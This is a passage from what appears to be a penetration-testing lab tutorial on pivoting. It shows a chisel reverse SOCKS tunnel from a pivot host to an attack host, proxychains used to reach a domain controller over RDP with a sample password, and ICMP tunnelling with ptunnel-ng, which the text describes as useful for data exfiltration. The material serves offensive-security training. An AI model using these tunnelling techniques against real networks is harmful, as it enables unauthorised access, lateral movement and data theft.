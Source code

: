 Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

#### Connecting the Chisel Client to our Attack Host

```shell
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks

2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
2022/05/30 14:19:29 client: Handshaking...
2022/05/30 14:19:30 client: Sending config
2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
2022/05/30 14:19:30 client: tun: SSH connected

```

We can use any editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.

#### Editing & Confirming proxychains.conf

```shell
tail -f /etc/proxychains.conf

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080

```

If we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

```shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

```

**Note:** If you are getting an error message with chisel on the target, try with a different version.


# ICMP Tunneling with SOCKS

* * *

ICMP tunneling encapsulates your traffic within `ICMP packets` containing `echo requests` and `responses`. ICMP tunneling would only work when ping responses are permitted within a firewalled network. When a host within a firewalled network is allowed to ping an external server, it can encapsulate its traffic within the ping echo request and send it to an external server. The external server can validate this traffic and send an appropriate response, which is extremely useful for data exfiltration and creating pivot tunnels to an external server.

We will use the [ptunnel-ng](https://github.com/utoni/ptunnel-ng) tool to create a tunnel between our Ubuntu server and our attack host. Once a tunnel is created, we will be able to proxy our traffic through the `ptunnel-ng client`. We can start the `ptunnel-ng server` on the target pivot host. Let's start by setting up ptunnel-ng.


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <[email protected]>
[inf]: (c) 2017-2019 Toni Uhlig,     <[email protected]>
[inf]: Security features by Sebastien Raveau, <[email protected]>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%